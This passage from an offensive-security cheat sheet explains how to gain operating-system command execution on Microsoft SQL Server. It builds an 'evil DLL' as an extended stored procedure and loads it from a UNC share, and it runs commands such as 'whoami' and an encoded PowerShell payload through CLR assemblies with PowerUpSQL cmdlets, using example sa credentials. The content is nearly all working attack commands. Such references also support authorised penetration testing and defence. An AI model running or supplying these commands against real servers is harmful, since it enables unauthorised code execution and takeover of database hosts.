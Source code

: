 
## Extended Stored Procedure

### Add the extended stored procedure and list extended stored procedures

```ps1
# Create evil DLL
Create-SQLFileXpDll -OutFile C:\temp\test.dll -Command "echo test > c:\temp\test.txt" -ExportName xp_test

# Load the DLL and call xp_test
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "sp_addextendedproc 'xp_test', '\\10.10.0.1\temp\test.dll'"
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "EXEC xp_test"

# Listing existing
Get-SQLStoredProcedureXP -Instance "<DBSERVERNAME\DBInstance>" -Verbose
```

* Build a DLL using [xp_evil_template.cpp](https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/xp_evil_template.cpp)
* Load the DLL
	```sql
	-- can also be loaded from UNC path or Webdav
	sp_addextendedproc 'xp_calc', 'C:\mydll\xp_calc.dll'
	EXEC xp_calc
	sp_dropextendedproc 'xp_calc'
	```


## CLR Assemblies

Prerequisites:

* sysadmin privileges
* CREATE ASSEMBLY permission (or)
* ALTER ASSEMBLY permission (or)

The execution takes place with privileges of the **service account**.


### Execute commands using CLR assembly

```ps1
# Create C# code for the DLL, the DLL and SQL query with DLL as hexadecimal string
Create-SQLFileCLRDll -ProcedureName "runcmd" -OutFile runcmd -OutDir C:\Users\user\Desktop

# Execute command using CLR assembly
Invoke-SQLOSCmdCLR -Username sa -Password <password> -Instance <instance> -Command "whoami" -Verbose
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64>" -Verbose

# List all the stored procedures added using CLR
Get-SQLStoredProcedureCLR -Instance <instance> -Verbose
```
